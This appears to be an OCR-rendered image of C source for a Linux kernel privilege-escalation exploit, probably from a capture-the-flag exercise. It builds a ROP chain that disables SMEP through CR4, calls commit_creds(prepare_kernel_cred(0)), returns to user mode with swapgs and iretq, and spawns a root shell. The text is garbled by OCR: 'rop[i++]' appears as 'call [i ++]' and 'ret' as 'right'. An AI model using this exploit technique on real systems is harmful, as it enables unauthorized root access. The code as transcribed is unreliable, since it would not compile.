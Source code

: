 ```C

			"mov user_ss, ss;"

			"mov user_sp, rsp;"

&quot;pushf;&quot;
			"pop user_rflags;"

			);

	puts("[*]status has been saved.");

}





void get_shell()

{

    system("/bin/sh");

}



void get_root()

{

    char* (*pkc)(int) = prepare_kernel_cred_addr;

    void (*cc)(char*) = commit_creds_addr;

(* cc) ((* pkc) (0));
}

int main()

{

    save_status();



	int i = 0;

    size_t rop[32] = {0};

call [i ++] = 0xffffffff810d238d; // pop rdi; right;
call [i ++] = 0x6f0;
call [i ++] = 0xffffffff81004d80; // mov cr4, rdi; pop rbp; right;
call [i ++] = 0;
    rop[i++] = (size_t)get_root;

call [i ++] = 0xffffffff81063694; // swapgs; pop rbp; right;
call [i ++] = 0;
call [i ++] = 0xffffffff814e35ef; // iretq; right;
    rop[i++] = (size_t)get_shell;

    rop[i++] = user_cs;                /* saved CS */
```